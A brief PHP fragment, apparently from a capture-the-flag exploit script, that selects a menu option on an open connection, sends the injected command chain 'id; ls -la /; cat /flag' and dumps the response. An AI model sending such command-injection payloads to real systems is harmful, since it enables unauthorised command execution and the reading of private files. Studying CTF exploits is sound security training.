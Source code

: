 ```php
fwrite($fp, "6\n");

fwrite($fp, "id; ls -la /; cat /flag\n");

dump:
printf("[!] dump\n");
while($x = fread($fp, 4096))
	echo $x;
```
